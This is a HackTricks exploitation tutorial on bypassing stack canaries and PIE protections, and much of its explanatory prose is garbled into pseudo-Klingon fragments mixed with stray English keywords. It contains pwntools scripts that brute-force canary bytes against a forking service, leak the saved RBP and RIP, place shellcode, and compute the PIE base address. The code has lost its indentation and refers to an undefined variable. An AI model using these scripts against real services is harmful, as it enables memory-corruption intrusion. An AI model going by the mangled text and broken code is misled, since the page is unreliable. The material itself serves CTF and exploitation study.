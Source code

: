 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> <strong>tlhIngan Hol</strong></summary>

**HackTricks** **yIqImqa'** **tlhIngan Hol** **ghItlh** **'ej** **PDF** **ghItlh** **Download** **'ej** **HackTricks** **advertised** **'oH** **company** **tlhIngan Hol** **SUBSCRIPTION PLANS** **Check** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) **ghItlh**!

**PEASS & HackTricks swag** **ghItlh** **official PEASS & HackTricks swag** **ghItlh** [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**The PEASS Family** **ghItlh** **PEASS Family** **ghItlh** [**The PEASS Family**](https://opensea.io/collection/the-peass-family) **ghItlh** **NFTs** **ghItlh** [**NFTs**](https://opensea.io/collection/the-peass-family) **ghItlh** **exclusive** **collection** **ghItlh**

**Join the** 💬 **Discord group** **ghItlh** [**Discord group**](https://discord.gg/hRep4RUj7f) **telegram group** **ghItlh** [**telegram group**](https://t.me/peass) **follow** **ghItlh** **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)

**Share your hacking tricks by submitting PRs to the** **HackTricks** **HackTricks Cloud** **ghItlh** **github repos** **ghItlh** [**HackTricks**](https://github.com/carlospolop/hacktricks) **HackTricks Cloud** **ghItlh** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)

</details>


**If you are facing a binary protected by a canary and PIE (Position Independent Executable) you probably need to find a way to bypass them.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Note that **`checksec`** might not find that a binary is protected by a canary if this was statically compiled and it's not capable to identify the function.\
However, you can manually notice this if you find that a value is saved in the stack at the beginning of a function call and this value is checked before exiting.
{% endhint %}

# Brute force Canary

The best way to bypass a simple canary is if the binary is a program **forking child processes every time you establish a new connection** with it (network service), because every time you connect to it **the same canary will be used**.

Then, the best way to bypass the canary is just to **brute-force it char by char**, and you can figure out if the guessed canary byte was correct checking if the program has crashed or continues its regular flow. In this example the function **brute-forces an 8 Bytes canary (x64)** and distinguish between a correct guessed byte and a bad byte just **checking** if a **response** is sent back by the server (another way in **other situation** could be using a **try/except**):

## Example 1

This example is implemented for 64bits but could be easily implemented for 32 bits.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## Example 2

**tlhIngan Hol:**

qaStaHvIS 32 bitpu'DI' vaj, 'ej 64 bitpu'DI' vaj 'e' vItlhutlh.\
'ej vaj Example 2 vIlo'laHbe'chugh, **program vItlhutlhlaHbe'chugh vay' payload vIlo'laHbe'chugh byte vItlhutlhlaH**.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# Print Canary

**Qa'vIn** vItlhutlh **canary** **bypass** **way**.\
**program vulnerable** **stack overflow** **Dochvam** **puts** **function** **point** **part** **stack overflow**. **attacker** **first byte canary** **null byte** (`\x00`) **rest canary** **random** bytes. **attacker** **overflow** **stack** **first byte canary**.\
**attacker** **puts functionality** **call** **middle** **payload** **print canary** (except **first null byte**).\
**info** **attacker** **craft** **send new attack** **knowing canary** (in **same program session**)

**ghobe'}'e'** **tactic** **restricted** **attacker** **print** **content** **payload** **exfiltrate canary** **create new payload** (in **same program session**) **send** **real buffer overflow**.\
CTF example: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

**PIE** **bypass** **leak some address** **need**. **binary** **leaking any addresses** **best** **brute-force RBP and RIP saved stack** **vulnerable function**.\
**example**, **binary** **protected** **canary** **PIE**, **brute-forcing canary**, **next** 8 Bytes (x64) **saved RBP** **next** 8 Bytes **saved RIP**.

**brute-force RBP** **RIP** **binary** **figure out** **valid guessed byte** **correct** **program output something** **just doesn't crash**. **same function** **provided brute-forcing canary** **used** **brute-force RBP** **RIP**:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## Get base address

**leaked** addresses: the **RBP** and the **RIP**.

**RBP** **useful addresses** **calculate** **shell stack**. _"/bin/sh\x00"_ **stack**. **distance** **leaked RBP** **shellcode located**, **distance** **shellcode** **RBP**:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**-lI' vItlhutlh **PIE binary**-lI' **base address**-lI' jImej. **valid ROP chain**-lI' tlhInganpu' vItlhutlh.\
**base address**-lI' jImej **objdump -d vunbinary**-lI' jatlh je. **disassemble latest addresses**-lI' qar'a' jImej:

![](<../../.gitbook/assets/image (145).png>)

DaH jatlhpu'wI'chaj, **1 Byte 'ej 'ejvatlh**-lI' vItlhutlh, vaj, **leaked RIP but finishing on "000"**-lI' jImej. jatlhpu'wI'chaj _0x562002970**ecf** _ leaked vaj _0x562002970**000**_-lI' jImej.
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlh wa'logh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
